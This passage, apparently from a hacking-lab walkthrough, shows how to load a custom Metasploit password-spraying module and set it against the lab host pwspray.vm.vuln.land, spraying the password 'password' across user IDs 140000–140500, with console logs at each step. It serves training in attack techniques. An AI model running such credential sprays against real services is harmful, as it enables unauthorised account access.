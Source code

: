    ```bash
   + -- --=[ 7 evasion                                       ]
   
   Metasploit tip: Use the edit command to open the currently active module in your editor
   
   msf5 >
   ```

3. Change to your exploit with

   ```bash
   use exploit/http/passwordspray/spray
   ```

   LOG:

   ```bash
   msf5 > use exploit/http/passwordspray/spray 
   msf5 auxiliary(http/passwordspray/spray) >
   ```

4. Get all available options/parameters

   ```bash
   show options
   ```

   LOG:

   ```bash
   msf5 auxiliary(http/passwordspray/spray) > show options
   
   Module options (auxiliary/http/passwordspray/spray):
   
      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      THREADS    1                yes       The number of concurrent threads (max one per host)
      enduser                     yes       The end user
      password                    yes       The password
      startuser                   yes       The start user
   
   msf5 auxiliary(http/passwordspray/spray) >
   ```

5. Set the modules parameters with `set optionName`

   ```bash
   set rhosts pwspray.vm.vuln.land
   set startuser 140000
   set enduser 140500
   set password password
   ```

   LOG:

   ```bash
   msf5 auxiliary(http/passwordspray/spray) > set rhosts pwspray.vm.vuln.land
   rhosts => pwspray.vm.vuln.land
   msf5 auxiliary(http/passwordspray/spray) > set startuser 140000
   startuser => 140000
   msf5 auxiliary(http/passwordspray/spray) > set enduser 140500
   enduser => 140500
   msf5 auxiliary(http/passwordspray/spray) > set password password
   password => password
   ```
